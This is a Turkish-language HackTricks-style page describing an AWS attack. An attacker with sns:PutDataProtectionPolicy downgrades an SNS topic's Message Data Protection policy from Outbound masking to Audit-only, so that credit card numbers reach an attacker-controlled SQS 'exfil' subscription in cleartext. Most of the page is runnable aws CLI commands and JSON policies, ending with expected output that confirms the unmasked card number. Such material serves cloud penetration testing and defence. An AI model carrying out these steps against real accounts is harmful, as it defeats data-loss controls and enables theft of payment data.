 # AWS - SNS Message Data Protection Bypass via Policy Downgrade

{{#include ../../../../banners/hacktricks-training.md}}

Eğer bir topic üzerinde `sns:PutDataProtectionPolicy` izniniz varsa, Message Data Protection politikasını Deidentify/Deny'den Audit-only'a (veya Outbound kontrollerini kaldırarak) değiştirebilir ve böylece hassas değerler (ör. kredi kartı numaraları) aboneliğinize değiştirilmeden teslim edilir.

## Gereksinimler
- Hedef topic üzerinde `sns:PutDataProtectionPolicy` çağırma izni (ve veriyi almak istiyorsanız genelde `sns:Subscribe`).
- Standard SNS topic (Message Data Protection destekli).

## Saldırı Adımları

- Değişkenler

```bash
REGION=us-east-1
```

1) Bir standard topic ve bir saldırgan SQS kuyruğu oluşturun ve sadece bu topic'in kuyruğa göndermesine izin verin

```bash
TOPIC_ARN=$(aws sns create-topic --name ht-dlp-bypass-$(date +%s) --region $REGION --query TopicArn --output text)
Q_URL=$(aws sqs create-queue --queue-name ht-dlp-exfil-$(date +%s) --region $REGION --query QueueUrl --output text)
Q_ARN=$(aws sqs get-queue-attributes --queue-url "$Q_URL" --region $REGION --attribute-names QueueArn --query Attributes.QueueArn --output text)

aws sqs set-queue-attributes --queue-url "$Q_URL" --region $REGION --attributes Policy=Version:2012-10-17
```

2) Outbound mesajlarda kredi kartı numaralarını maskeleyen bir data protection policy iliştirin

```bash
cat > /tmp/ht-dlp-policy.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "MaskCCOutbound",
"Principal": ["*"],
"DataDirection": "Outbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Deidentify": { "MaskConfig": { "MaskWithCharacter": "#" } } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-policy.json)"
```

3) Saldırgan kuyruğunu subscribe edin ve test bir CC numarası ile mesaj yayınlayın, maskeleme olduğunu doğrulayın

```bash
SUB_ARN=$(aws sns subscribe --region $REGION --topic-arn "$TOPIC_ARN" --protocol sqs --notification-endpoint "$Q_ARN" --query SubscriptionArn --output text)
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```

Beklenen çıktı maskeleme gösterir (hash'ler):
```json
"Message" : "payment:{cc:################}"
```
4) Politikayı audit-only moduna düşürün (Outbound'ı etkileyen deidentify/deny ifadeleri olmasın)

SNS için Audit ifadeleri Inbound olmalıdır. Politikayı Audit-only Inbound ifadesi ile değiştirmek, herhangi bir Outbound de-identification'ı kaldırır; böylece mesajlar aboneye değiştirilmeden iletilir.
```bash
cat > /tmp/ht-dlp-audit-only.json <<'JSON'
{
"Name": "__ht_dlp_policy",
"Version": "2021-06-01",
"Statement": [{
"Sid": "AuditInbound",
"Principal": ["*"],
"DataDirection": "Inbound",
"DataIdentifier": ["arn:aws:dataprotection::aws:data-identifier/CreditCardNumber"],
"Operation": { "Audit": { "SampleRate": 99, "NoFindingsDestination": {} } }
}]
}
JSON
aws sns put-data-protection-policy --region $REGION --resource-arn "$TOPIC_ARN" --data-protection-policy "$(cat /tmp/ht-dlp-audit-only.json)"
```

5) Aynı mesajı publish edin ve maskelenmemiş değerin teslim edildiğini doğrulayın
```bash
aws sns publish --region $REGION --topic-arn "$TOPIC_ARN" --message payment:{cc:4539894458086459}
aws sqs receive-message --queue-url "$Q_URL" --region $REGION --max-number-of-messages 1 --wait-time-seconds 15 --message-attribute-names All --attribute-names All
```
Beklenen alıntı açık metin CC'yi gösterir:
```text
4539894458086459
```
## Etki
- Bir topic'i de-identification/deny'den audit-only'e geçirmek (veya Outbound kontrollerini başka şekilde kaldırmak), PII/secrets'in değişmeden saldırgan kontrolündeki aboneliklere geçmesine izin verir; bu da aksi takdirde maskelenecek veya engellenecek data exfiltration'a olanak sağlar.

{{#include ../../../../banners/hacktricks-training.md}}
